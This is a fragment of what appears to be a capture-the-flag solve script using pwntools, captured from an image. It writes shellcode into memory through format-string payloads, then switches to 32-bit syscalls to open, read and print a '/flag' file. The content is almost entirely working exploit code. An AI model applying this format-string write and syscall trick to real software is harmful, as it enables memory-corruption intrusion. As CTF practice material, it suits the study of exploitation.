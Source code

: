 ```sql
        sla('Enter:', fmtstr_payload(
            8, {addr: shellcode[i:i+8]}, write_size='byte'))
        idx += 1

shellcode = asm('''
mov rax, 0
mov rbx, 0
mov rcx ,0
mov rdx, 0
mov rsi, 0
mov rdi, 0
''', arch='amd64')
                
shellcode += asm('''
mov eax, 5
mov ebx, 0x50510200
mov ecx, 0
mov edx, 0
int 0x80
                 
mov ebx, eax

mov eax, 3
mov ecx, 0x50510200
mov edx, 0x100
int 0x80

mov eax, 4
mov ebx, 1
mov ecx, 0x50510200
mov edx, 0x100
int 0x80
''', arch='i386')

write_shellcode(b'/flag\x00\x00\x00', 0x50510200)
write_shellcode(shellcode, 0x50510000)

# pause()
sla('Enter:', 'done')
rl()
success(rl())

ia()
```
{% endraw %}


